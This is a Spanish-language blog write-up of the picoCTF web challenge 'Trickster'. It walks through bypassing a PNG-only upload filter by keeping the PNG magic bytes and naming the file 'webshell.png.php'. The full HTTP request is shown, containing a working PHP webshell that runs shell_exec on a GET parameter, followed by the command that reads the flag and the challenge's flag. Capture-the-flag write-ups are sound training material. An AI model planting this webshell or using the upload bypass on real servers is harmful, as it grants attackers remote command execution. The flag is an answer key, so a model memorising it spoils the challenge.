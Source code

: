 ```yaml
---
title: Trickster
date: 2025-05-15 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, trickster, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Trickster
Author: Junias Bonou
Description
I found a web app that can help process images: PNG images only! Try it here!
{: .prompt-tip }

Cuando visitamos la instancia aparece un formulario donde se puede subir un archivo, en principio

``` html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```
Como no sabemos si se sanitizó la entrada creo que empezaré por probar a subir un archivo .png con contenido php. Como php se procesa del lado del servidor es posible que consigamos RCE como había hecho anterirormente en [posts/picoctf-n0s4n1ty/](../picoctf-n0s4n1ty).
Así que renombro el info.php en info.png.php, pero esta vez el filtro funciona para lo que no parezca una imagen png. En cierta manera
el servidor detecta que no es una imagen, por lo que hay que afinar un poco más.  

Al subir una imagen png simplemente nos dice que la va a procesar. Así que se almacena en algun lado. ¿/uploads?(más adelante me doy cuenta de que había una pista, pero lo adiviné al simplemente subir candadito.png y comprobar que estaba en /uploads/candadito.png.
Ahora con ZAP capturo el POST que se realiza al subir una imagen:

```
POST http://atlas.picoctf.net:62712/ HTTP/1.1
Host: atlas.picoctf.net:62712
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: multipart/form-data; boundary=---------------------------132556845750925031918361941
Content-Length: 2810
Origin: http://atlas.picoctf.net:62712
Connection: keep-alive
Referer: http://atlas.picoctf.net:62712/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------132556845750925031918361941
Content-Disposition: form-data; name="file"; filename="candadito.png"
Content-Type: image/png

PNG

   
IHDR   á   á    Ø¦  	çIDATxì_UGÇ§ÒR ¢d74[,ÝÄÝ¦]Ñ6²ô MÝF³O$øÀîqcHª±Ic#áE<Ø0¦¦Ò»õÏú@oµ	-ÉÅvDÙVª»voSWnðöï=¿ßoÎüæï½Ï;÷óaæ3ÿÎÌ­7Æû­_þÏ{þö¡©Êíz6UºïÜ¸i>%
·
¯¼õÊïßêytÇÃ÷bSÓ4l¼ñ»C®cö<þX.E7PÛ«LqçèUX¢
@G¼þ[kd5@kÞE§g°aµÏÛoëwÛ°ÚÍ¯0ÇýÙý1«(;ùÍåwþ)<ç6æ, ¨æ0ÌóìE
12×i¦·TÎ2pîó°¨8ËxÞ«8A³í(..N¶¬?¾þ&ºp.ÍP[ÕÓ=W[ Ë}xýúÀý[Ö¯Y½úÚµFão¾¢ub³ÿhÈ`ØøÂÒè}òáÏl\Ór}æÏµ×~é÷b Æ£w®Ï~*5¾áªµm4~8½7·@x6Ó®r÷9ÇÙ©/ÑÙ=ìø6°_à³ª§ÅéÐD6T|
í5í#êªÉh·5 ÕOÃ§lö´WÏÄi[4½¯ÀÏð9ËõMz&Û¶Ä´Ç3"7^-õ\kÀ¸Rñ1¼*_SO¶çCsúác¸[¼¢ÝÓ>.+fOÆ#>ùñp8GâU1Æ½9bÐN¯SP¾±±7zCñM83ùIQÚR·ÏJÿÛ»´§[èKÆrÆ@Ý¶¸EË+h¹rlIióPêg8	4]ãBà·/¡+Ì3ÂOn1!nWÅ¥áÓü"ú`× ´¨õSÝ}ø¿;xØ,nÔzïå¨~	¹î>ü	ªåÅ~]ÑM~Ú>\1ºÙbä	ÀÚû*C¡Ñ¨~% «»©îÃ;ÿECF¿ª8Íá­ºÏ5÷á&Ø4]üyjíðEÏûØIø~?ÞöìÅ¬0äÏ~Pâ­ðÉ g¢¾ÆBqäÍ Þ!YP¾@z·bÒN°Uó«t(¥¬U~ÎóÎ=4ÓÂpçáÛ,d'"aÆf6-çxÝ,á5ß¢R£Ãw)}V©Bºóê=dÞ¤ÛÝæÜÎÃþ/!7¢³^¢øîE¾FÞDÄê4¼L<HçxcxÜHVr¿Õiø:
4¡à&tªf§!íyÏ71VLëH]
È£Dml¡ "u¾O>HÔÆ&ð®â¤iÇï.ÃÿÒ ÈKl|ÿîs¦;¿~Ë5ïCÞNf§LwSé.Cv¯4\E3Qj¡ÞiCÑù¤¡·¹ÍÃ§Éßì)@¨ÏÿâÍçenÍ}UHÖ¿?L?¼¾aá#æõ ¬3hÃðIò7+A	êËzÄí´åy-íà¥4©¹Ø^yèC=ùX²æb{å¡4)¹kÖùì?K.Fj8Ý-TÊGöKFjø±ÕquHÄk¸_ü¢&ÍÔÐkb_|¬¢,¯¡9HF«Æ-£)ñ{qü>Ëa&rÑ*µaK.Úã6\ÊÅÁÈ
Íþ9Å4ÁØ
çSãm[,²ßlOßÐÕíb/¥nJÃø)
ã§½ÿ Îöz[ÜÝT*}A©ÓAF:HíÙÇfy[ü #¬%L~o¯RÚON»ã7tQÆOi?¥aüñSÆOi?.CömÅªp×
:«NL§_#&OXuÎD8)ò9ØWþüû6ÚALÚ!§Èðá#-¥+´pz@Ê'MüñS¶?GùG®IÈÛÃ¾¤a[ÀßÇ]µÇn8·æ[ªbäÚ¥)Æm¸´j_ÊÂQ¶,KhÏÅ
ë.Zs1bC²°¤-]#¤½÷]yÅé¬º²Bö¡äß[lß¶;òð¸µ|ûvm9Or¹ z»V(öq}é¼{Þ´Ö&r(*Fjø: Ýn¾.í^:4RCÓÅ^Õ+9±!]¾Ö&±¡éhÍE«`Ì­¹h:¯­ñnÝ;îZl¨£craâ[`0ÃKg³´&RßÎí±ìê4Ag½ôHêä_"p_¦5'h4¬cÊ¹î} ÃygþûVº
oLô8ðO~,>8¢ß1ZDñÏÒú!ëo#kÙL \[Ó
_ßº¶SØ
Öd°g¶98ð=hz g¾ì<äPáHÃnAcÙ×Y	Ð°þ ê°¡ÚYÛíûÁ¾ôkíaij6ôñsøAú<@¾JTÌðÇ±/Kkeø×Ñ§@©j@JôÑUi»½CE¶FÆÖ°Me±¥3+ì¯ÜGFÑzrÊÃ·XHï{s×=Ïw©9IVÈï v¶efê3ìMò[L²@¬&6äø3ú3dý\ Cºw%¹ÙUmáZWG þRºÐÁ7èîIQ`Y]®|7=­m![ÔÐE-+âÀ²þ^ú~d:³uè>¤+¹ÿP	® È°ü=BîL¶'ÖÇ1é* ²}àõÔ·NïÂ¤« dø
8h }þÌv\	Èï¸¾e¹!ßØñwúë×1Éj 
K5}n± ¾º×Ñ¶cÕ?æÃ1CCÃ­o\:Æu7¦bÇ((ÃÝÒ<eù.(U
¨÷áV¯iöñ)<°7þO=ÝëC3Üåñø*Q
¸Z¾ÃôxY4¼WØÖW¤;m'<À÷÷åô¸$5 Ûº-«ÅUIç@VÄ­à	c°Í@ÛÎ]S ÎûmwÍ:îÅZáè6þº³ârðôÏX]Þq°ÆÚ~q%¾Ç÷Ól=?Æ[7ßóMÖiZ!z¢v]¨±ÍXÇ+´¢F¾¶­t¯ôÊ®[1$PoâÊ~L æyÞ:JÃø)
ã§4Ò0~JÃø)È±ýtF}»VéþDâïÕaÑÈp°Ø^ß4Êû0~JÃø)
ã§4Ò0~JÃÍ®Î«æ}þûhi|³@¾hÍ½b¿{jcJÃø)
ã§4Ò0~JÃø)
ã§4  ÿÿî£O±yëi    IEND®B`
-----------------------------132556845750925031918361941--
```

Ahora vamos a ver que pasa si retiro el contenido de datos de imagen y lo sustituyo con un código malicioso, para este caso
he codificado una minima webshell, el truco está en llamarle al archivo co la extensión .png.php 

```
POST http://atlas.picoctf.net:62712/ HTTP/1.1
host: atlas.picoctf.net:62712
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: multipart/form-data; boundary=---------------------------11406924858310626671920572531
content-length: 308
Origin: http://atlas.picoctf.net:62712
Connection: keep-alive
Referer: http://atlas.picoctf.net:62712/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------11406924858310626671920572531
Content-Disposition: form-data; name="file"; filename="webshell.png.php"
Content-Type: image/png

PNG

<html>
<body>
    <h4>MINIMUM PHP WEBSHELL</h4>
    <form method="GET" name="formulario">
        <input type="text" name="cmd" size="100">
        <input type="submit" value="SEND">
    </form>

    <?php
    if (isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    ?>
</body>
</html>

-----------------------------11406924858310626671920572531--

```
Ahora podemos lanzar comandos y recibir los resultados para finalmente, leer el archivo que contiene la bandera.
si hubiera mirado el archivo robots.txt antes, nos da una pequeña pista

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
El fichero instructions.txt contiene un poco de información pero no es muy relevante a la hora de resolver el reto

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

```
cat ../HFQWKODGMIYTO.txt
```

flag **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}**

Por una parte el reto es interesante en cuanto a la forma, crear una webshell, pero el fondo de la cuestión es si realmente se puede explotar esto en versiones recientes de PHP, dado que la clave de esta vulnerabilidad reside en que realmente el formulario permite subir archivos con extensiones diferentes a las esperadas.    

